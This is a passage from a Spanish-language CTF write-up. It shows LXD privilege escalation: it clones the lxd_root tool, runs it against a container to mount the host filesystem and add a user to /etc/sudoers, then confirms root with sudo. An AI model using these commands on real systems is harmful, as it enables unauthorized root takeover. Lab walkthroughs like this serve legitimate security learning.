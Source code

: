 Una vez hecho todo eso seremos `root` pero dentro de un contenedor y aunque importemos la carpeta de `root` al contenedor no va a funcionar, por lo que nos saldremos de ese contenedor y haremos lo siguiente...

```shell
# Check the image is there
lxc image list
```

Para ver como se llama nuestro contenedor, una vez verificado eso, importaremos un repositorio de github...

URL = https://github.com/initstring/lxd\_root

```shell
#Importarlo
git clone https://github.com/initstring/lxd_root.git

#Meternos dentro de la carpeta
cd lxd_root/
```

```shell
bash lxd_rootv1.sh <CONTAINER_NAME>
```

Info:

```
[+] Stopping container mycontainer
[+] Setting container security privilege on
[+] Starting container mycontainer
[+] Mounting host root filesystem to mycontainer
error: More than one disk device uses the same path: /mnt/root.
[+] Using container to add cengover to /etc/sudoers
[+] Unmounting host root filesystem from mycontainer
error: The device doesn't exist
[+] Resetting container security privilege to off
[+] Stopping the container
[+] Done! Enjoy your sudo superpowers!
```

Si nos aparece esto tal cual es que funciono comprobandolo de la siguiente manera...

```shell
sudo id
```

```
uid=0(root) gid=0(root) groups=0(root)
```

Una vez visto eso, tendremos que hacer...

```shell
sudo su
```

Y ya seriamos `root`, por lo que leemos la flag en la carpeta de `root`...
